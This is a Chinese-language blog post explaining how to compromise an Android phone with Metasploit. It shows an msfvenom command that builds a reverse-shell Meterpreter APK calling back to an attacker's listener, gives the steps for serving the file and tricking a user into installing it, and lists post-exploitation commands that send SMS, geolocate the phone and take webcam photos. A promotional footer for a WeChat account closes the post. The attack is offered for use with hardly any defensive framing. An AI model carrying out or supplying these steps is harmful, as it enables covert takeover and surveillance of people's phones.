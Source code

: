 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Metasploit渗透Android系统
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 使用Metasploit渗透Android系统
lock: need
---
```


# 使用Metasploit渗透Android系统

可以创建一个新的APK文件，也可以将攻击载荷注入到一个现有的APK文件来攻击Android平台，这里我们使用第一种方法。

## 创建APK文件 

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.175.128 LPORT=4444 R > /var/www/html/test.apk
```

## 启动Apache服务

```bash
service apache2 start
```

## 诱导用户下载安装APK

这一步，我们诱导用户下载并安装这个APK文件。

## 实施攻击

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.175.128
set LPORT 4444
exploit
```

到此，只要用户下载安装了我们的test.apk文件，我们就会获取到Meterpreter权限。

## 后渗透测试

在我们获取了目标Android手机的Meterpreter权限之后，我们可以执行如下命令进行后渗透攻击

**注意：如下命令都是在meterpreter命令行下执行的。**

## 查看手机是否root过

```bash
check_root
```

## 发送短信

```bash
send_sms -d 某个手机号码 -t "hello"
```

## 查看系统信息

```bash
sysinfo
```

## 对手机进行定位

```bash
wlan_geolocate
```

此命令会输出手机的经纬度，我们根据这个经纬度就可以知道手机的具体位置。

## 使用手机摄像头拍照

```bash
webcam_snap
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
